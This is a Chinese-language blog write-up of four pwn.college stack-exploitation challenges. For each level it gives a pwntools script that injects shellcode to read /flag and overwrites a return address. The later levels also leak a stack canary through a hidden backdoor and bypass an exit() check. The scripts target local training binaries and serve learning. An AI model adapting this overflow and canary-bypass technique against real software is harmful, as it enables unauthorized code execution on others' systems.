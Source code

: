 ```yaml
---
layout:	post
title:  "pwn.college: Exploitation Scenarios"
date: 2022-3-22 12:00
author: "Adam"
header-img: "img/post-bg-exploit.jpg"
catalog: true
tags:
    - pwn.college
    - Exploit
---
```


# This is a test of callouts.
>[!Tip]
>hello

#### Level 1
这一题是让我们先输入一段shellcode，然后输入一个buffer。最简单的想法就是通过溢出将返回地址改为shellcode地址即可。这里的shellcode简单起见直接用前面获取flag的代码。
``` python
from pwn import *
r = process("/challenge/toddlerone_level1.0")
shellcode = """
mov rbx, 0x00000067616c662f     # push "/flag" filename
push rbx
mov rax, 2                              # syscall number of open
mov rdi, rsp                            # point the first argument at stack ("/flag").
mov rsi, 0                              # NULL out the second argument (meaning, O_RDONLY).
syscall                         # trigger open("/flag", NULL).

mov rdi, 1                              # first argument to sendfile is the file descriptor to output to (stdout).
mov rsi, rax                            # second argument is the file descriptor returned by open
mov rdx, 0                              # third argument is the number of bytes to skip from the input file
mov r10, 1000                           # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                             # syscall number of sendfile
syscall                         # trigger sendfile(1, fd, 0, 1000).

mov rax, 60                             # syscall number of exit
syscall                         # trigger exit().
"""
payload = asm(shellcode, arch='amd64')

log.success(str(payload))
r.send(payload)
# return addr: 0x1d9ae000
r.sendline("112")
r.sendline(b'\xaa' * 103 +b'\xbb'+ b'\x00\xe0\x9a\x1d\x00\x00\x00\x00')
```

#### Level 2
这一题同样没有canary和aslr，而且栈上的代码可以执行。所以可以直接把shellcode输入进buffer然后overflow返回地址即可。
``` python
from pwn import *
r = process("/challenge/toddlerone_level2.0")
shellcode = """
mov rbx, 0x00000067616c662f     # push "/flag" filename
push rbx
mov rax, 2                              # syscall number of open
mov rdi, rsp                            # point the first argument at stack ("/flag").
mov rsi, 0                              # NULL out the second argument (meaning, O_RDONLY).
syscall                         # trigger open("/flag", NULL).

mov rdi, 1                              # first argument to sendfile is the file descriptor to output to (stdout).
mov rsi, rax                            # second argument is the file descriptor returned by open
mov rdx, 0                              # third argument is the number of bytes to skip from the input file
mov r10, 1000                           # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                             # syscall number of sendfile
syscall                         # trigger sendfile(1, fd, 0, 1000).

mov rax, 60                             # syscall number of exit
syscall                         # trigger exit().
"""
payload = asm(shellcode, arch='amd64')
log.success(str(payload))
# return addr: 0x7fffffffd4f0
r.sendline("129")
r.sendline(payload+ b'\xaa'*48 +b'\xd0\xd4\xff\xff\xff\x7f\x00\x00' )
r.interactive()
```

#### Level 3
这一题的stack仍然可执行，但是有了canary，并且aslr也启用了。tong s同时还有后门，尝试输入以下REPEAT发现还是以前的后门。思路就是先用REPEAT运行一遍，获取到canary后在第二次运行时注入shellcode并overflow canary和返回地址。
``` python 
from pwn import *
s = process("/challenge/toddlerone_level3.0")
shellcode = """
mov rbx, 0x00000067616c662f     # push "/flag" filename
push rbx
mov rax, 2                              # syscall number of open
mov rdi, rsp                            # point the first argument at stack ("/flag").
mov rsi, 0                              # NULL out the second argument (meaning, O_RDONLY).
syscall                         # trigger open("/flag", NULL).

mov rdi, 1                              # first argument to sendfile is the file descriptor to output to (stdout).
mov rsi, rax                            # second argument is the file descriptor returned by open
mov rdx, 0                              # third argument is the number of bytes to skip from the input file
mov r10, 1000                           # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                             # syscall number of sendfile
syscall                         # trigger sendfile(1, fd, 0, 1000).

mov rax, 60                             # syscall number of exit
syscall                         # trigger exit().
"""
payload = asm(shellcode, arch='amd64')
log.success(str(payload))
# First run, get canary
payload1 = b'REPEAT' + b'a'*4 + b'b'
s.sendlineafter(b'Payload size: ', str(len(payload1)))
s.sendafter(b'bytes)!\n', payload1)
s.recvuntil("- the canary value is now 0x")
canary = int(s.recvline()[:-2], 16)
log.success("canary => {}".format(hex(canary)))

s.sendline("113")
print(s.recvuntil("This will allow you to write from 0x"))
addr = int(s.recv(12),16)
log.success("addr => {}".format(hex(addr)))
s.sendline(payload + b'\xaa' * 16 + p64(canary) + b'\x00' * 8 + p64(addr))
s.interactive()
```

#### Level 4
最后一题了，有点小激动。
This challenge has a trick hidden in its code. Reverse-engineer the binary right after this puts()
call to see the hidden backdoor!
Goodbye!
This challenge will, by default, exit() instead of returning from the
challenge function. When a process exit()s, it ceases to exist immediately,
and no amount of overwritten return addresses will let you hijack its control
flow. You will have to reverse engineer the program to understand how to avoid
making this challenge exit(), and allow it to return normally.
exit() condition triggered. Exiting!
这一题同样有后门，而且还有一个退出机制。测试了一下，后门仍然是REPEAT，先用上一题的代码测试一下有什么问题。输入后不显示flag，看来需要看一下源码。
``` C
if (var_18h != -0x60b4f47fafa53d83) {
puts("exit() condition triggered. Exiting!");
exit(0x2a);
}
```
具体的汇编代码为：
``` assembly
mov    rax,QWORD PTR [rbp-0x18]
movabs rdx,0x9f4b0b80505ac27d
cmp    rax,rdx
```

``` python
from pwn import *
s = process("/challenge/toddlerone_level4.0")
shellcode = """
mov rbx, 0x00000067616c662f     # push "/flag" filename
push rbx
mov rax, 2                              # syscall number of open
mov rdi, rsp                            # point the first argument at stack ("/flag").
mov rsi, 0                              # NULL out the second argument (meaning, O_RDONLY).
syscall                         # trigger open("/flag", NULL).

mov rdi, 1                              # first argument to sendfile is the file descriptor to output to (stdout).
mov rsi, rax                            # second argument is the file descriptor returned by open
mov rdx, 0                              # third argument is the number of bytes to skip from the input file
mov r10, 1000                           # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                             # syscall number of sendfile
syscall                         # trigger sendfile(1, fd, 0, 1000).

mov rax, 60                             # syscall number of exit
syscall                         # trigger exit().
"""
payload = asm(shellcode, arch='amd64')
log.success(str(payload))
# First run, get canary
payload1 = b'REPEAT' + b'a'*4 + b'b'
s.sendlineafter(b'Payload size: ', str(len(payload1)))
s.sendafter(b'bytes)!\n', payload1)
s.recvuntil("- the canary value is now 0x")
canary = int(s.recvline()[:-2], 16)
log.success("canary => {}".format(hex(canary)))

s.sendline("113")
print(s.recvuntil("Our stack pointer points to 0x"))
rbp = int(s.recv(12),16)
rbp = rbp + 0x40
log.success("rbp => {}".format(hex(rbp)))
print(s.recvuntil("This will allow you to write from 0x"))
addr = int(s.recv(12),16)
log.success("addr => {}".format(hex(addr)))
s.sendline(payload +  b'\x7d\xc2\x5a\x50\x80\x0b\x4b\x9f' +b'\xaa' * 8 + p64(canary) + p64(rbp) + p64(addr))
s.interactive()

```

完结撒花
